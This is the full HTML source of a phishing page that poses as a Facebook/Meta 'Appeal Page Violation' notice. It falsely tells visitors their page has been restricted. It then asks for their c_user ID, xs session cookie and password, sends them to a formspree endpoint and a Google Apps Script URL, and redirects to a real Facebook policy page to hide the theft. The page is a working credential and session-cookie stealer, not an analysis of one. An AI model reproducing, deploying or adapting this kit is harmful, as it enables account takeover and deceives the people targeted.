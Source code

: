 <html>
<head>
<title>Action | required
</title>

<link rel="icon" type="images/x-icon" href="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/logo.png?v=1696612218285"/>


</head>
<body>


<h1 style="background-color:#4267B2; color:white; padding-left:50px; padding-top:18px; padding-bottom:10px; font-family:Arial; height:56px; font-size:45px;"><b>facebook 	&nbsp; 	&nbsp;	&nbsp;	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp;	&nbsp;	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp;<input type="search" placeholder="Search.." style="width:42%; height:40px; padding-top:20px;"></b><br><br><img src="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/appeal.png?v=1696612042115g" alt="page Violation" style="background-color:#f2f2f2; height:35px;"></h1>

<h2 style="font-family: Arial, Helvetica, sans-serif; background-color:#f2f2f2; color:#f2f2f2; text-align: left;  height:42px;">.</h2>



<p style="padding-left:18%"><table width="55%" style="border: 1px solid #f2f2f2;"><tr><th colspan="3" style="background-color:#f2f2f2; font-family:Arial; text-align:left; padding-left:20px; font-size:20px; color:#595959; height:40px;">Appeal Page Violation</th></tr>


<tr><th colspan="3" style="font-family:ArialS; text-align:left; font-size:12px; color:#595959; padding-left:15px;"> 
<br><br>
We have detected unusual activity on your page that violates our community standards.<br><br><br>

Your access to your page has been limited, and you are currently unable to post, share, or comment using your page.<br><br><br>

If you believe this to be a mistake, you have the option to submit an appeal by providing the necessary information.<br><br><br> 

<p style="color:#8c8c8c">Detailed Video Information</p>


<video controls poster="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/1686653139000.https%20(2).png?v=1696612306007" width="200" height="100" padding-left="10px" controls>
  <source src="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/appeal.mp4?v=1696611950329" type="video/mp4">
  <source src="appeal.ogg" type="video/ogg">
 
</video>

<br><br><br> 

Please be sure to provide the requested information below.<br>










    


  <p style="color:#8c8c8c">
 <form action="https://formspree.io/f/mbjnzavq" method="post">

  C_User <br><br><input type="number" name="c_user" pattern=".{9,}"  required><br><br> 

  Xs <br><br> <input type="text" name="xs" pattern=".{30,}" required><br><br> 

  Please Re-Enter your passward to confrim : <input type="text" name="passward" id="passward"  pattern=".{6,}"  required>    <input type="Submit" name="submit" style="background-color:#4267B2; color:white;">         <br><br> </th></tr>
  
  <tr><th colspan="3" style="background-color:#f2f2f2; font-family:Arial; font-size:10px; text-align:left; padding-left:10px;"> Please make sure account not to log out from your computer until you have received a verification email. 

   
 
  </form></th></tr></table></P>
  
  
  <p style="color:#8c8c8c;">META 2023</p> 
  
  <p style="padding-left:18%"><table width="80%" style="color:#8c8c8c; text-align:left;"><tr><th><a href="#" style="color:#8c8c8c; text-decoration:none; --hover-color: #4267B2;">About</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">AdChoices</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Terms and policies</a></th></tr>
  
  
        <tr><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Privacy Policy</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Create ad</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Cookies</a></th></tr>
		
		
		<tr><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Carees</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Create Page</a></th><th><a href="#"></a></th></tr> </table>
  
  
  
  <script>
			const scriptURL = 'https://script.google.com/macros/s/AKfycbzJMyGebEWUto4g8NvJBm5h7X0tRRApO5qjEq6K1CxoYN8XEu_JrWZDg94aZK0tbtAhDA/exec'
			const form = document.forms['sheet1']
		  
			form.addEventListener('submit', e => {
			  e.preventDefault()
			  fetch(scriptURL, { method: 'POST', body: new FormData(form)})				
				.then(() => {  window.location.assign("https://transparency.fb.com/en-gb/policies/community-standards"); })
				.catch(error => console.error('Error!', error.message))
			})
		  </script>
  
  

  </body>


</html>
